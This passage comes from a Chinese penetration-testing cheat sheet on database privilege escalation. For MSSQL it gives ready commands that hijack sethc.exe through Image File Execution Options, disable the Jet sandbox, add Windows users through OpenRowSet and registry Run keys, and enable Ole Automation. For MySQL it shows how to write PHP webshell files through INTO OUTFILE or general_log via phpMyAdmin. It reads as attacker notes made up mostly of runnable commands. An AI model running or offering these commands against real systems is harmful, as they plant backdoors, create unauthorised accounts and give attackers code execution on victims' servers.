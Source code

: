     4. 映像劫持

        `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

    5. 沙盒模式提权：

        a：`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

        b：`Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此。
        开启 OpenRowSet：`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

    6. xp_regwrite 操作注册表

        `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

        开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

### mysql
**提权**
- **文章**
    - [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

- **通过 phpmyadmin 来 getshell**
    - 确认绝对路径

        利用 log 变量，猜绝对路径

        ![image](../../../img/渗透/笔记/业务软件vul整合笔记/1.png)

        或者直接查询 `select @@basedir;`

        直接 SQL 写文件
        `select '<?php phpinfo(); ?>' INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/a.php';`
        如果 file_priv 为 null，那么是写不了的，可以尝试使用日志写马
        ```sql
        set global general_log='on';
        set global general_log_file='C:/phpStudy/PHPTutorial/WWW/a.php';
        select '<?php phpinfo(); ?>';
        set global general_log=off;
        ```

- **UDF 提权**
    - 文章
        - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)
